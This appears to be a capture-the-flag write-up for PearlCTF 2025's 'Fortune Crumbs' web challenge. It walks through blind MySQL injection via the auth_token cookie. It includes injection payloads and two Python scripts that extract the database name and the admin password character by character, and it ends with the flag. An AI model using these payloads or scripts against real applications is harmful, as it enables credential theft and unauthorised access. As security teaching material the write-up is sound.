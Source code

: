 # PearlCTF 2025 Writeup: Fortune Crumbs (Web)
**Credits:** Huge thanks to @benkyou for helping with this writeup!

**Challenge Overview:**
The "Fortune Crumbs" challenge in PearlCTF 2025 presented a web application vulnerable to blind SQL injection. Participants were tasked with exploiting this vulnerability to retrieve the admin's password.&#8203;

**Detailed Exploitation Process:**

1. **Identifying the SQL Injection Point:**
   The application’s `/request` endpoint checks the `auth_token` cookie. Fuzzing this cookie with payloads like `OR 1=1` and `OR 1=2` resulted in different server responses, indicating a potential SQL injection vulnerability.

2. **Determining the Database Management System (DBMS):**
   To tailor the injection payloads effectively, it was crucial to identify the underlying DBMS. Testing with PostgreSQL-specific payloads did not work, but MySQL-specific payloads, such as `' OR 1=IF(2=2, 1, 2)#`, executed successfully, confirming the use of MySQL.

3. **Enumerating Database Structure:**
   With MySQL confirmed as the DBMS, the next step was to enumerate the database structure:

   - **Identifying database Name:** 
    We can simply write a script to check for every letter in databse name and finally get databse name as `dont_touch`.
    ```py
    import requests
    import string
    
    url = "https://fortune-crumbs.ctf.pearlctf.in/request"
    charset = string.ascii_letters + string.digits + "_"
    database_name = ""

    for i in range(20):  # Assuming max database name length of 20
        found = False
        for char in charset:
            payload = f"' OR 1=(SELECT CASE WHEN (SELECT SUBSTR((SELECT DATABASE()), {i+1}, 1) = '{char}') THEN 2 ELSE 1 END)#"
            headers = {"Cookie": f"auth_token={payload}"}
    
            response = requests.get(url, headers=headers, allow_redirects=False)
    
            if response.status_code == 302: 
                database_name += char
                print(f"Database name so far: {database_name}")
                found = True
                break
    
        if not found:
            break  # Stop when no more characters are found
    
    print(f"Final database name: {database_name}")
    ```


   - **Identifying Table Names:**
     An educated guess suggested the presence of a `users` table. This was confirmed using the following payload:

     ```sql
     ' OR 1=IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 0), 1, 5) = 'users'), 1, 2)#
     ```

   - **Identifying Column Names in the `users` Table:**
     To confirm the existence of essential columns like `username` and `password`, the following payload was used:

     ```sql
     ' OR 1=IF((SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0), 1, 8) = 'username'), 1, 2)#
     ```

     This confirmed the presence of the `username` and `password` columns.

4. **Extracting the Admin's Password:**
   With the database schema mapped out, the focus shifted to extracting the admin's password:

   - **Determining Password Length:**
     The length of the admin's password was found to be 12 characters using:

     ```sql
     ' OR 1=IF(LENGTH((SELECT password FROM users WHERE username='admin' LIMIT 1)) = 12, 1, 2)#
     ```

   - **Retrieving the Password Character by Character:**
     A Python script was employed to automate the extraction process:

     ```python
     import requests
     import string

     url = "https://fortune-crumbs.ctf.pearlctf.in/request"
     charset = string.ascii_letters + string.digits + string.punctuation
     password = ""

     for i in range(12):
         for char in charset:
             headers = {
                 "Cookie": f"auth_token=' OR 1=IF((SELECT SUBSTRING((SELECT password FROM users WHERE username='admin' LIMIT 1), {i+1}, 1) = '{char}'), 1, 2)#"
             }
             response = requests.get(url, headers=headers, allow_redirects=False)
             if response.status_code == 302:
                 password += char
                 print(f"password: {password}")
                 break

     print(f"final password: {password}")
     ```

     This script iteratively guessed each character of the password by observing the server's response to crafted SQL injection payloads.

5. **Retrieving the Flag:**
   Using the extracted admin credentials to log in, the flag was obtained:
` pearl{c00k13s_4r3n’t_just_f0r_34t1ng_huh?}`

